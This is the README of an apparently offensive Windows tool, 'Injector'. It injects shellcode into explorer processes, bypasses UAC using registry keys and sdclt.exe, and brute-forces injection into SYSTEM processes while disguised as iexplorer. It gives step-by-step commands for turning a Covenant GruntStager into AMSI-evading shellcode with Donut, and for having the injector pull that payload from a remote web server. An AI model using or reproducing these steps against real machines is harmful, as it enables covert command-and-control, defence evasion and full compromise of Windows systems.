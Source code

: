 # Injector

Injects shellcode into memory, tries to bypass UAC, and automatically tries to escalate to system

## Credits
This project is built upon the shoulders of giants:

@_RastaMouse -> Their work on TikiTorch and shell injection formed the groundwork for how the injector operates

@Cobbr_IO -> For the SharpSploit and Covenant projects

@TheRealWover -> For the Donut library and project


## PayLoad Creation (ShellcodeCreate.py)
Installation:
``` pip3 install donut-shellcode ```

Flags:
```
python3 ShellcodeCreate.py -h                           
usage: ShellcodeCreate.py [-h] [-f FILENAME] [-o OUTPUT]

arguments:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        input file
  -o OUTPUT, --output OUTPUT
                        output file
```
Step1: Download the relevant GruntStager binary from covenant
Step2: Generate Payload
```
python3 ShellcodeCreate.py -f GruntStager.exe -o payload.txt
```

Current donut implementation results in shellcode also bypassing AMSI

## Injector.exe

```
Flags:
-w  <IP Address to Payload.txt>

-f <full path to payload.txt>

Injector.exe -f /path/to/payload.txt

Injector.exe -w http://10.10.10.123:8080/payload.txt
```

### Workflow
1. Identifies current user and injects payload under applicable explorer process (pretending to be iexplorer)
2. If user is local admin performs UAC bypass using Reg Keys and sdclt.exe
3. Attempts to bruteforce injection under System process (resulting in system level payload being exectued) (pretending to be iexplorer)


